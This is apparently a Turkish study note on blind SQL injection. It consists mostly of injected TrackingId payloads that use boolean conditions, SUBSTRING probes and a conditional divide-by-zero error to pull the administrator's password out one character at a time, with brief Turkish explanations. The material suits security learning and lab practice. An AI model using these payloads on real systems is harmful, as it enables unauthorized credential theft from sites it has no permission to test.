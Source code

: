 # Blind SQL injection

### Tanım
- SELECT * FROM sessions WHERE TrackingId = 'xyz123';
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='1'
- TrackingId=JNwDzr5zsVqhNLyC' AND '1'='1
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='2'
- TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 
- TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a ==> welcome back
-  TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
- TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
- 

-------------------------------------

- ==> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
    - SELECT TrackingId → TrackingId sütunundaki değeri alır.
    - FROM TrackedUsers → TrackedUsers tablosundan veri çeker.
    - WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' → Sadece belirli bir TrackingId değerine sahip satırları döndürür.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'

    -     SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1)
        - "Administrator" kullanıcısının şifresinin ilk karakterini alır.
    - > 'm'
        - Şifrenin ilk harfinin 'm'den büyük olup olmadığını kontrol eder.
        - Eğer doğruysa, sorgu başarılı olur ve veri döner.
        - Eğer yanlışsa, sorgu başarısız olur ve veri dönmez.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'

Açıklama:

    CASE WHEN (1=2) THEN 1/0 ELSE 'a' END
        (1=2) → FALSE döner
        FALSE olursa 'a' döner.
        TRUE olsaydı 1/0 çalışarak sıfıra bölme hatası oluşturacaktı.

    (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
        Burada CASE ifadesi 'a' döndürdüğü için sorgu başarıyla çalışır ve veri dönebilir.
        Eğer (1=2) yerine (1=1) yazılsaydı, 1/0 işlemi hata oluştururdu.

Bu teknikle saldırgan şunları test edebilir:

    SQL Injection var mı?
        Hata mesajı alırsa, SQL Injection zafiyeti var demektir.
    Hata tabanlı saldırılar mümkün mü?
        Eğer hata mesajı alınabiliyorsa (1/0 sıfıra bölme hatası gibi), saldırgan hata tabanlı SQL Injection kullanabilir.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE 
        WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
        THEN 1/0 
        ELSE 'a' 
      END FROM Users)='a'

-------------------------------------